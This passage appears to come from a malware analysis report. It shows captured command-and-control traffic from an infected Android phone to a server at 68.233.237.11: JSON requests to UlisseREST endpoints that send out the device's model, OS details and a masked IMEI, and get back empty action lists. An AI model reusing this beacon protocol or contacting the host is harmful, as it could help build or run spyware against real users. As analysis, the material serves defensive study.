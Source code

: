### <a name="Captured-C2-Interactions"></a>Captured C2 Interactions

#### <a name="RequestActionsToExecute-Request"></a>RequestActionsToExecute - Request

```
POST /UlisseREST/api/actions/RequestActionsToExecute HTTP/1.1
Connection: Keep-Alive
Content-Type: application/json
Accept: application/json
User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.2; BLU STUDIO 5.0 C Build/KOT49H)
Host: 68.233.237.11
Accept-Encoding: gzip
Content-Length: 475

{"CommandLine":"","CurrentDirectory":"","Id":"8f4af21e-29fb-48e9-8b52-8cf87fcdec57","LeaID":"00000000-0000-0000-0000-000000000000","MachineName":"BLU BLU STUDIO 5.0 C BLU STUDIO 5.0 C IMEI: XXXXXXXXXXXXXXX IMSI: null","OsType":5,"Platform":" Board:BLU STUDIO 5.0 C Brand:BLU Device:BLU STUDIO 5.0 C","Version":"Release: 4.4.2 CodeName: REL Inc: eng.android.1441800693 SDK: 19","ServicePack":"","SystemDirectory":"","UserDomainName":"","UserName":"android","ProcessorCount":0}
```

#### <a name="RequestActionsToExecute-Response"></a>RequestActionsToExecute - Response
```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Content-Type: application/json;charset=UTF-8
Date: Mon, 07 Nov 2016 01:03:21 GMT
Content-Length: 2

[]
```

#### <a name="AckRequestedActions-Request"></a>AckRequestedActions - Request

```
POST /UlisseREST/api/actions/AckRequestedActions HTTP/1.1
Connection: Keep-Alive
Content-Type: application/json
Accept: application/json
User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.2; BLU STUDIO 5.0 C Build/KOT49H)
Host: 68.233.237.11
Accept-Encoding: gzip
Content-Length: 2

[] 
```

#### <a name="AckRequestedActions-Response"></a>AckRequestedActions - Response
